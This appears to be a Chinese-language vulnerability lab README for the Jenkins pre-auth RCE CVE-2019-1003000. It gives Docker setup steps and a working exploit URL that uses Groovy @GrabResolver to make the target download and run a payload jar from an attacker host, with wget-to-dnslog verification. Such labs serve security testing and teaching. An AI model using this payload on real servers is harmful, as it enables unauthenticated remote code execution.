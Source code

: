 # Jenkins 远程代码执行漏洞（CVE-2019-1003000)


## 原理

参考阅读:

https://blog.orange.tw/2019/01/hacking-jenkins-part-1-play-with-dynamic-routing.html
http://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html
https://github.com/petercunha/Jenkins-PreAuth-RCE-PoC

## 测试环境搭建
测试环境编译运行：

```
docker pull her0ma/CVE-2019-1003000
docker run -d -p 8080:8080 her0ma/cve-2019-1003000
```
也可以进入当前文件所在目录，基于Dockerfile构建镜像并搭建漏洞环境，操作如下：

1、基于Dockerfile构建镜像

```
docker build -t cve-2019-1003000 .
```
2、下载漏洞插件，列表如下：

* Pipeline: Declarative插件1.3.4版本  
https://mirrors.tuna.tsinghua.edu.cn/jenkins/plugins/pipeline-model-definition/1.3.4/pipeline-model-definition.hpi

* Script Security插件1.48版本  
https://mirrors.tuna.tsinghua.edu.cn/jenkins/plugins/script-security/1.48/script-security.hpi
* Pipeline: Groovy插件2.60版本  
https://mirrors.tuna.tsinghua.edu.cn/jenkins/plugins/workflow-cps/2.60/workflow-cps.hpi

3、运行并进入容器，查看初始密码，初始密码位置

```
/var/jenkins_home/secrets/initialAdminPassword
```
4、安装推荐插件，设置管理密码，并登陆管理账号,插件管理-高级功能，上传安装上文中下载的三个漏洞插件。

5、安装插件完成之后，选择重启Jenkins。
## 测试过程
### 1、生成执行命令的Jar文件
生成执行命令的jar包所需的文件都在payload目录下，如下：

* Payload.java 执行命令的Java文件源代码，可以根据测试情况修改其中的命令。
* META-INF 目录中保存了执行JAR包所依赖的方法类

执行build.sh文件，编译生成jar包。

### 2、将jar包放到另外一台可访问的web目录下
存在payload-1.jar文件的目录很重要，如：

```
http://Exploit-HOST/package/payload/1/payload-1.jar
http://Exploit-HOST/package/payload/2/payload-2.jar
```

### 3、访问漏洞利用URL，执行命令
具体漏洞测试url如下：

```
http://<TARGET HOST>/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.workflow.cps.CpsFlowDefinition/checkScriptCompile
?value=
@GrabConfig(disableChecksums=true)%0a
@GrabResolver(name='payload', root='http://<EXPLOIT HOST>')%0a
@Grab(group='package', module='payload', version='1')%0a
import Payload;
```
EXPLOIT HOST是保存了JAR文件的服务器IP或域名，group、module、version的值对应了该jar文件的存放路径。修改version的值，对应的jar包的访问路径和文件名也需要发生改变。

访问url的时候，成功利用的之后，请求回显如图：

![](4.png)

查看EXPLOIT HOST的web日志，会看到如下记录：

![](1.png)

说明成功请求下载了执行命令的jar文件，进入容器，可以在如下目录中看到对应的jar文件：

![](2.png)

可利用wget dnslog地址的方式来判断是否成功执行了命令，成功的如图：

![](3.png)

